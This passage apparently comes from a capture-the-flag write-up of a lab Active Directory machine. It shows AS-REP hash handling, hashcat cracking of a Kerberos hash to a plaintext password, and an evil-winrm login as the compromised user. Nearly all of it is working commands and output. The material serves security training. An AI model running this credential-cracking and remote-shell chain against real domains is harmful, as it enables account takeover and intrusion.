 
The hash format that comes out of the second method requires adding `$23`
towards the beginning to make it look like the first and work in `hashcat`.

Either way, I’ll set jorden back:

    
    
    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -Verbose
    Verbose: [Get-DomainSearcher] search string: LDAP://MULTIMASTER.MEGACORP.LOCAL/DC=MEGACORP,DC=LOCAL
    Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
    Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'
    

And verify it no longer works:

    
    
    root@kali# GetNPUsers.py -no-pass -dc-ip 10.10.10.179 MEGACORP/jorden
    Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation
    
    [*] Getting TGT for jorden
    [-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
    

### Crack Hash

Now `hashcat` can crack this pretty quickly:

    
    
    root@kali# hashcat -m 18200 jorden.hash /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $krb5asrep$23$jorden@MEGACORP.LOCAL:c6e1735f291d71135278005a61a8e78e$771ee4486ddcf18fdf2ee216bf2e66cff076ef6907a1154f3458c7e5ef2f65038263f9ce459cfa964ad0057b53676f4c326e5d380910e
    48d9fee2c585819d70cea63442b035359ef6f9cb3a8cfdfffe981c8e7c0aaaf913f9bf8d8df96147b30f15b71e5a9541dcdfcfef20670edfb46b2973917d661fadcc48df2aa9f72c1586a1bbcbff4420f89c4360125f1a9a23
    12466f69201ed5035db7952bb6eaa3cec0edf0888e958e0180333ba11fde7e0448836d87fe3090152980a95c1e6c1a151a83603f1380ea7c306cfbd74fdd19a507c36c1d38db5c7231e9fee7bdbe73ad1dedac61c2b1e9d3ef
    2e36834206c2130:rainforest786
    ...[snip]...
    

The password is rainforest786.

### WinRM

The creds work to get a shell as jorden:

    
    
    root@kali# evil-winrm -u "MEGACORP\jorden" -p rainforest786 -i 10.10.10.179
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\jorden\Documents> whoami
    megacorp\jorden    
    